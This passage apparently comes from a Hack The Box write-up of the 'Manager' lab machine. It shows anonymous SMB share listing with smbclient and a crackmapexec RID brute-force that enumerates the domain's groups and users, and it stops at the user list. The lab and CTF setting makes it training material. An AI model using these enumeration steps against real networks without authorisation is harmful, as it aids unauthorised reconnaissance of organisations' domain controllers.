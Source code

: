 
Samba is open, so we can enumerate the shares:

```bash
└─$ smbclient -L \\dc01.manager.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to dc01.manager.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

## Foothold

We can use `crackmapexec` to brute-force the users:

```
┌──(gal㉿gal)-[~/workspace/gal/htb]
└─$ crackmapexec smb 10.10.11.236 -u anonymous -p "" --rid-brute 10000
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\anonymous: 
SMB         10.10.11.236    445    DC01             [+] Brute forcing RIDs
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
```